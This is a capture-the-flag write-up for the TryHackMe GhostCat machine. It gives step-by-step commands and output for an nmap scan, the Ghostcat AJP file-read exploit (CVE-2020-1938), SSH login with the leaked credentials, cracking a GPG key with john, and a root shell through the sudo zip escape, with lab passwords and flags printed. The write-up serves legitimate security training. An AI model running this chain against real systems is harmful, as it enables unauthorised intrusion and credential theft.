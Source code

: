 
---

 > Start with an `nmap` scan of the target:
 
```bash
└─$ nmap -sC -sV -Pn 10.10.16.95                     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 12:56 EDT
Nmap scan report for 10.10.16.95
Host is up (0.33s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.62 seconds

```

We see there are open ports for `ssh`, `http`, and `ajp13`.
* `ajp13` is Apache Jserv Protocol, and it is a protocol that allows communication between Apache server and web application. It also works well with `tomcat`

> Using `searchsploit` to search for an exploit for `ajp`:

```bash
searchsploit ajp
```

![](./screenshots/ajp-1.png)

We see that there is a python exploit file available `48143.py`.

```bash
└─$ searchsploit -p 48143   
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
```

> Copy this file to our working directory to not make changes to the actual file, then work with it.

```bash
cp /usr/share/exploitdb/exploits/multiple/webapps/48143.py ./
```

Then, we run the exploit with the IP address of the target machine:
```bash
python3 48143.py 10.10.16.95
```

I got two errors, you might not get these when running. Here are the fixes:
1. Remove the `bufsize=0` parameter from the function in line 262.
2. Change the last line, line 301 to `print("".join([d.data.decode('utf-8') for d in data]))`.

After running, we see that the exploit returns for us the content of the `WEB-INF/web.xml` file. This file contains any initialization parameters and container-managed security constraints that you want the server to enforce for you.

The output of this file contains a username and password: `skyfuck:8730281lkjlkjdqlksalks`.

These can be used to login via SSH to the server machine.

```bash
ssh skyfuck@10.10.16.95
```
- Entering the password we obtained successfully opens an SSH connection.

Upon entering, we can move to the `merlin` directory for the user. Listing the files in that directory using `ls`, we see the `user.txt` file.

###### Compromise this machine and obtain user.txt: `THM{GhostCat_1s_so_cr4sy}`

In the `skyfuck` user directory, we see 2 files.
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

> These are private files that contain passwords. We can crack them using `john` tool to obtain the passwords.

First, we download the files to the local attacking machine:
```bash
└─$ scp skyfuck@10.10.16.95:/home/skyfuck/* ./Desktop
skyfuck@10.10.16.95's password: 
credential.pgp                       100%  394     0.6KB/s   00:00    
tryhackme.asc                        100% 5144     7.6KB/s   00:00
```

Now, we can use `gpg2john` on the `tryhackme.asc` file and store it in a file called `hash`.
```bash
gpg2john tryhackme.asc > hash
```

Now, we can use dictionary attack using `john` on the `hash` file to find the password:
```bash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-03-29 16:30) 20.00g/s 21440p/s 21440c/s 21440C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We get the username password combination `tryhackme:alexandru`. 

> Now, we can use that to decrypt the `.pgp` file.

1. Import the `.asc` file.
```bash
gpg --import tryhackme.asc
```
2. Decrypt the `.pgp` file using the password uncovered above.
```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We see the username password combination for user `merlin`, `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.

Now, we can change user to `merlin`:
```bash
su merlin
```
> enter the password we found above.

As `merlin` we can find if we have any privileges we can exploit using the `sudo -l` command.

![](./screenshots/merlin.png)

> We see that we can run `zip` as root. Head to [gtfobins - zip](https://gtfobins.github.io/gtfobins/zip/) to exploit the `zip` sudo privilege.

Running these commands as seen in the website, we can achieve SUDO privileges:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

After running them, we are taken to a root shell. We can now read the contents of the `/root/root.txt` flag file.

```bash
cat /root/root.txt
```

###### Escalate privileges and obtain root.txt : `THM{Z1P_1S_FAKE}`

---